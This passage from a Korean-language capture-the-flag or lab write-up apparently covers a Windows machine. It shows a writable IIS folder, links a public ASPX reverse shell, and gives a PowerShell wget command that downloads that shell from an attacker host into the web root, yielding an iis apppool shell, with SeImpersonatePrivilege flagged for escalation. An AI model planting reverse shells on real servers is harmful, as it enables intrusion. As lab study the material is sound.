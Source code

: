 ```zsh
               2 File(s)         55,320 bytes
               6 Dir(s)   5,022,593,024 bytes free
```

- `C.Bum` 계정이 해당 폴더에 대해 가지고 있는 권한을 확인한 결과, 쓰기 권한이 존재했다.  
- 따라서, 웹 쉘 혹은 리버스 쉘 코드를 삽입하여 권한 상승을 시도해 볼 수 있다.  

```zsh
C:\inetpub\development flight\C.Bum:(OI)(CI)(W)
                       NT SERVICE\TrustedInstaller:(I)(F)
                       NT SERVICE\TrustedInstaller:(I)(OI)(CI)(IO)(F)
                       NT AUTHORITY\SYSTEM:(I)(F)
                       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                       BUILTIN\Administrators:(I)(F)
                       BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                       BUILTIN\Users:(I)(RX)
                       BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                       CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

---

### Upload Malicious File (`C:\inetpub\development\[...]`)
- [12fdsf23.aspx](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)  
  - 리버스 쉘 ASPX 파일은 위 URL의 IP/PORT를 변경하여 사용하였다.  

```zsh
C:\inetpub\development>powershell wget http://10.10.14.8/asp_revshell.aspx -OutFile 12fdsf23.aspx                          
powershell wget http://10.10.14.8/asp_revshell.aspx -OutFile 12fdsf23.aspx
```

- 공격자 호스트에서 리스닝 포트 개방 후 리버스 쉘 경로로 접근하여 `iis apppool` 계정의 쉘 획득에 성공했다.  
- 추가로, 해당 계정은 `SeImpersonatePrivilege` 권한이 존재하므로 이를 악용하여 권한 상승을 시도해 볼 수 있다.  
